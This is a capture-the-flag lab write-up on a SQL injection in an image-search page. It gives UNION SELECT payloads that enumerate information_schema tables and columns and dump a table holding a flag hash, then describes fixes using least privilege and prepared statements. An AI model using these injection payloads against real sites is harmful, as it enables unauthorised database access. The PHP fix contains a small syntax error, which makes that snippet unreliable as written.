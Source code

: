 # SQL Injection - Image

We can inject SQL code into the search image id to access database content.

## How-To

1. Go to `/index.php?page=searchimg`
1. Write in the search `input`

	```sql
	-- Sql Injection Detected
	1 OR 1=1
	```

1. Write in the search `input`

	```sql
	-- List Databases and Tables
	1 UNION SELECT 1, CONCAT_WS(CHAR(47), table_schema, table_name) FROM information_schema.tables

	-- Tables:
	--   information_schema
	--     ...
	--   Member_Brute_Force
	--     db_default
	--   Member_Sql_Injection
	--     users
	--   Member_guestbook
	--     guestbook
	--   Member_images
	--     list_images
	--   Member_survey
	--     vote_dbs
	```

1. Write in the search `input`

	```sql
	-- List Tables Columns
	1 UNION SELECT 1, CONCAT_WS(CHAR(47), table_schema, table_name, column_name) FROM information_schema.columns

	-- Tables:
	--   information_schema
	--     ...
	--   Member_Brute_Force
	--     db_default
	--       id
	--       username
	--       password
	--   Member_Sql_Injection
	--     users
	--       user_id
	--       first_name
	--       last_name
	--       town
	--       country
	--       country
	--       Commentaire
	--       countersign
	--   Member_guestbook
	--     guestbook
	--       id_comment
	--       comment
	--       name
	--   Member_images
	--     list_images
	--       id
	--       url
	--       title
	--       comment
	--   Member_survey
	--     vote_dbs
	--       id_vote
	--       vote
	--       nb_vote
	--       subject
	```

1. Write in the search `input`

	```sql
	-- List Table Content
	1 UNION SELECT 1, CONCAT_WS(CHAR(47), id, url, title, comment) FROM Member_images.list_images

	-- ...
	-- id: 5
	-- url: borntosec.ddns.net/images.png
	-- title: Hack me ?
	-- comment: If you read this just use this md5 decode lowercase then sha256
	--          to win this flag ! : 1928e8083cf461a51303633093573c46
	```

## Fix

- Do not use root-like user to execute database queries, use one only with specific access rights, we should not be able to access `information_schema`, or any other database than `Member_images`.
- Validate user input, and use prepared SQL query

	```php
	$id = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT, [
		'options': [
			'min_range' => 1
		]
	]);

	if ($id)
	{
		$stmt = $db->prepare("SELECT id, url, title FROM list_images WHERE id=:id");
		$stmt->bindParam(':id', $id, PDO::PARAM_INT);
		$stmt->execute();
		$image = $stmt->fetch();
		$stmt->closeCursor();

		// Do whatever with $image ...
	}
	```

## Details

- `information_schema` is an ANSI-standard set of read-only views that provide information about all of the tables, views, columns, and procedures in a database.

## Resources

- Owasp : [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- Wiki : [information_schema](https://en.wikipedia.org/wiki/Information_schema)
- MariaDB : [information_schema.tables](https://mariadb.com/kb/en/information-schema-tables-table/)
- MariaDB : [information_schema.columns](https://mariadb.com/kb/en/information-schema-columns-table/)
- MariaDB : [CONCAT_WS()](https://mariadb.com/kb/en/concat_ws/)
- MariaDB : [CHAR()](https://mariadb.com/kb/en/char/)
- PHP : [PDO](https://www.php.net/manual/fr/book.pdo.php)
- PHP : [filter_input()](https://www.php.net/manual/en/function.filter-input.php)
- Decrypt : [MD5 Decrypt](https://md5decrypt.net/)
- Encrypt : [Sha256 Encrypt](https://md5decrypt.net/en/Sha256/)

